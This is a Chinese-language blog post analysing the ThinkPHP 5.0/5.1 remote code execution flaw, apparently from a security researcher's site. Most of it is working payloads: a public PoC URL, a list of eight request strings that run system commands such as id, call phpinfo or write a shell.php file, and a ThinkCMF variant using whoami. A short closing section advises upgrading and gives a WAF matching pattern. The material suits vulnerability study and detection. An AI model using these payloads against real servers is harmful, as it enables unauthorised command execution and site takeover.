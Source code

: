 ```yaml
---
layout: post
title:  "Thinkphp5 getshell漏洞分析"
---
```

# Thinkphp5 getshell漏洞分析

* 通杀所有使用了thinkphp5.0和5.1
* 实际上在不同使用thinkphp5开发的cms中getshell的参数会有差异

### 在thinkphp5 getshell poc
这是目前公开5.0.20的poc<br/>
/index.php?s=index/\think\app/invokefunction&function=call_user_func&var[0]=system&var[1][]=ls<br/>
![图片0](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/0.jpg)<br />
调用过程如下<br/>
![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/1.jpg)<br />
详情分析：https://www.anquanke.com/post/id/167653<br/>
另外可利用的index/\think\request/input<br/>
传入data=ls name= default= filter=system<br/>
![图片2](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/2.jpg)<br />
通过call_user_func执行<br/>
![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/3.jpg)<br />
并不局限于以上两个方法，但一定是think\这个命名空间下的已知类<br/>
### thinkphp5不同版本的payload
1. index.php?s=index/\think\Request/input&filter=phpinfo&data=1<br />
2. index.php?s=index/\think\Request/input&filter=system&data=id<br />
3. index.php?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<br />
4. index.php?s=index/\think\view\driver\Php/display&content=<br />
5. index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1<br />
6. index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id<br />
7. index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1<br />
8. index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id<br />
### thinkcmf利用过程区别
getshell poc<br/>
/public/index.php?s=portal/\think\app/invokefunction&function=call_user_func&function_name=system&parameters=whoami<br/>
![图片4](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/4.jpg)<br />
1.thinkcmf默认不存在index，这里我选用portal<br/>
![图片5](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/5.jpg)<br />
2.参数差异，这里要使用function_name parameters<br/>

### 防护
1.代码本身就更新thinkphp5，或修改代码。<br/>
2.防护设备可以匹配s=.*?/\\\\think\\\\.*?来判定，解释下s参数是thinkphp5 var_pathinfo的默认配置为s，利用的类目前也都是在think\这个命名空间下的已知类。<br/>
